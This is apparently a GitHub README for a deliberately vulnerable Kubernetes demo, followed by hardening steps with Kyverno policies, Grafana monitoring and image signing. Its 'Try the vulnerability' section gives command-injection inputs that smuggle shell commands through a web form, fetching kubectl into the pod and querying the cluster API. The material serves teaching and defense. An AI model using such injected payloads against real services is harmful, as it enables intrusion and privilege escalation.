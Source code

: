 # Vulnerable-web-stack-kube

This repository demonstrates how missconfigured services inside Kubernetes can lead to privilegies escalation.

There are two services in this repository, a client and a server. The client is a simple web application that send a message to the server. The server is a simple web application that receive a message and display it in the console with the cowsay command.

## How to use it ❓

```bash
cd vulnerable-web-stack-kube
kubectl apply -f ./k8s/resources
# Port-forward the client and server application
kubectl port-forward client-deployment-ip-service 8080:80
kubectl port-forward server-deployment-ip-service 3000:8000
```

### Try the vulnerability 🥷

Open your browser and go to [http://localhost:8080](http://localhost:8080). You will see a form with a text area. Write a message and click on the send button. You will see the message displayed in the console of the server pod.

Copy and paste the following text into the text area:

```bash
hello; curl -LO https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl; chmod +x ./kubectl
```

This will download kubectl inside the pod and give us the possibility to execute command inside the pod

```bash
hello; ./kubectl get pods
```

We can see that the command is executed inside the pod and that we can reach the kube API

### Protect the cluster with kyverno 🏰

To protect the cluster we will use kyverno. Kyverno is a policy engine for Kubernetes. It allows us to define policies that will be applied to the cluster.
We will also display the policy violations in a grafana dashboard.
To do so, we will deploy the kube-prometheus-stack chart and kyverno with Helm:

```bash
# Install the Helm repository
cd ./vulnerable-web-stack-kube
helm repo add kyverno https://kyverno.github.io/kyverno/
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helrm repo update
helm install kyverno kyverno/kyverno -f k8s/values/kyverno-values.yaml -n kyverno --create-namespace
helm install prom-stack prometheus-community/kube-prometheus-stack -f k8s/values/prom-stack-values.yaml
# Port-forward the grafana dashboard
kubectl port-forward -n prom-stack-grafana-uuid 3001:3000

# Fix the policy violation
# Remove the resources
kubectl delete -f ./k8s/resources
# Apply the policies
kubectl apply -f ./k8s/policies
```

Now if we re-deploy the resources, we will se that the server pod is not created.

To fix the policy violation, we added `securityContext` fields in the deployment manifest of the server.
With this fixed manifest, the server pod will be created. Apply the fixed manifest with:

```yaml
# Reapply the fixed resources policies
kubectl apply -f ./k8s/resources_fixed
```

Restart the port-forwarding of the server pod and try again the vulnerability. You will see that the command is not executed inside the pod :cwhite_check_mark:

#### See the policy violations in the grafana dashboard 📊

Go to [http://localhost:3001](http://localhost:3001) and login with the default credentials (admin:prom-operator).
You will see the dashboard with the policy violations.

### Sign and build the docker images ✍️

This step describes how to build and sign the docker images.

1. The server

    ```bash
    cd ./services/server
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest
    ```

2. The client

    ```bash
    cd ./services/client
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest
    ```

## Clean the cluster 🗑️

```bash
kubectl delete -f ./k8s/policies
kubectl delete -f ./k8s/resources
```

### Licence

This project is licensed under the MIT License - see the LICENSE file for details. 

### Author 👨‍💻

Developped in the ☁️ with 🔒 by [GridexX](https://github.com/GridexX)